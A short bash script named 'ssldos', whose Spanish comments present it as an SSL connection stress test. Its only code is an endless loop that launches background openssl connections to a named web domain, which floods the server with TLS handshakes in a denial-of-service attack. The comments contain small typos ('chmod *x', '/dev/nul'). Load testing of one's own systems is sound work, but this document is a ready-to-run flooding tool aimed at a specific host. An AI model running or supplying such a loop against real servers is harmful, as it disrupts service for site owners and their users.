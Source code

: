 # ssldos

#!/bin/bash
# TEST DE STRESS CONEXIONES SSL
# Antonio Taboada 30/12/2016
# chmod *x ssldos.sh
# ./ssldos.sh
# Para parar Control + C

while true; do
        openssl s_client -connect web.hackingyseguridad.com:443 2>/dev/null 1>/dev/nul&
done
